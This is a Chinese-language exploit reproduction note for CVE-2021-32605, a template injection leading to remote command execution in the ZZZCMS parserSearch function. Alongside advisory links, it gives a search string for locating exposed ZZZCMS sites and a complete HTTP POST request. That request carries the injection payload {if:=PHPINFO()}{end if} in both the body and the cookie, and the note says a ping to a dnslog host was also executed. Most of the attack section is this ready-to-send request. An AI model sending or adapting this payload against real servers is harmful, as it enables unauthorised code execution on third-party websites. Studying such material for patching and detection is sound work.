 # ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

参考链接：

- https://srcincite.io/advisories/src-2021-0015/
- https://nvd.nist.gov/vuln/detail/CVE-2021-32605

## 漏洞影响 

```
ZZZCMS
```

## 网络测绘

```
app="zzzcms"
```

## 漏洞复现

发送如下请求包命令执行

![](./images/202202170904549.png)

```plain
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```

执行 ping dnslog

![](./images/202202170904912.png)
